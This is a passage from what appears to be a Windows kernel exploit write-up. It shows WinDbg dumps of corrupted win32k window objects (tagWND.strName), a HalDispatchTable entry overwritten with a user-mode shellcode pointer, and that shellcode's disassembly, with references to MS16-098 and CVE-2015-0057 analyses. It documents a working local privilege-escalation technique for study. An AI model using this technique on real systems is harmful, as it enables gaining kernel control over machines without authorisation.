 This is the second completed fake chunk:

    0: kd> db fea2d820-8 + 11d*8
    fea2e100  02 00 01 00 1d 01 00 08-00 00 00 00 00 00 00 00  ................
    fea2e110  0d 00 01 00 03 00 00 0c-38 26 a1 fe 80 c1 80 c1  ........8&......
    fea2e120  00 00 00 00 40 8c 47 88-00 00 00 00 00 00 c1 00  ....@.G.........
    fea2e130  00 00 00 00 00 00 00 00-00 00 00 00 18 e1 a2 fe  ................
    fea2e140  00 00 00 00 00 00 00 00-00 40 00 00 9c 88 d0 95  .........@......
    fea2e150  00 00 00 00 00 00 00 00-00 00 88 00 00 00 00 00  ................
    fea2e160  e8 3e b5 ff 06 00 00 00-00 00 00 00 80 e1 a2 fe  .>..............
    fea2e170  00 00 00 00 00 00 00 00-05 00 01 00 0d 00 00 09  ................

PrimitiveWnd tagWND.strName

    0: kd> db fea2d820 + 78 + 6c8 + 84
    fea2dfe4  02 00 00 00 04 00 00 00-fc 53 f7 83 00 00 00 00  .........S......
    fea2dff4  60 df a2 fe 17 03 10 00-00 00 00 00 00 00 00 00  `...............
    fea2e004  00 00 00 00 00 00 00 00-08 00 00 00 03 00 01 00  ................
    fea2e014  17 00 00 08 01 00 00 00-01 00 00 00 88 19 7e 01  ..............~.
    fea2e024  18 a9 00 00 17 00 01 00-03 00 00 08 fc 03 03 00  ................
    fea2e034  03 00 00 00 38 48 96 fe-40 8c 47 88 30 e0 a2 fe  ....8H..@.G.0...
    fea2e044  18 00 08 60 00 07 00 80-00 01 00 00 00 00 cf 04  ...`............
    fea2e054  00 00 00 00 00 00 00 00-60 df a2 fe 28 81 a1 fe  ........`...(...

CorruptWnd tagWND.strName

    0: kd> db fea2d820 + 78 + 6c8 + d0 + 84
    fea2e0b4  de 08 00 00 e0 08 00 00-20 d8 a2 fe 00 00 00 00  ........ .......
    fea2e0c4  30 e0 a2 fe 17 03 10 00-00 00 00 00 00 00 00 00  0...............
    fea2e0d4  00 00 00 00 00 00 00 00-08 00 00 00 03 00 01 00  ................
    fea2e0e4  17 00 00 08 01 00 00 00-01 00 00 00 90 1e 7e 01  ..............~.
    fea2e0f4  18 a9 00 00 03 00 01 00-03 00 00 08 02 00 01 00  ................
    fea2e104  1d 01 00 08 00 00 00 00-00 00 00 00 0d 00 01 00  ................
    fea2e114  03 00 00 0c 38 26 a1 fe-80 c1 80 c1 00 00 00 00  ....8&..........
    fea2e124  40 8c 47 88 00 00 00 00-00 00 c1 00 00 00 00 00  @.G.............

The shellcode pointer replaced:

    0: kd> dds nt!HalDispatchTable
    83f753f8  00000004
    83f753fc  013711c0
    83f75400  83e3c1b4 hal!HalpSetSystemInformation
    83f75404  840fe71f nt!xHalQueryBusSlots
    83f75408  00000000

    0: kd> u 013711c0
    013711c0 a188fa3701      mov     eax,dword ptr ds:[0137FA88h]
    013711c5 8b0d80fa3701    mov     ecx,dword ptr ds:[137FA80h]
    013711cb 894804          mov     dword ptr [eax+4],ecx
    013711ce 33c0            xor     eax,eax
    013711d0 c21000          ret     10h


##References

+ [An Analysis Of MS16-098](https://warroom.securestate.com/an-analysis-of-ms16-098/)
+ [Exploiting the win32k!xxxEnableWndSBArrows use-after-free (CVE 2015-0057) bug on both 32-bit and 64-bit](https://www.nccgroup.trust/globalassets/newsroom/uk/blog/documents/2015/07/exploiting-cve-2015.pdf)
+ [Kernel Attacks through User-Mode Callbacks](https://media.blackhat.com/bh-us-11/Mandt/BH_US_11_Mandt_win32k_WP.pdf)
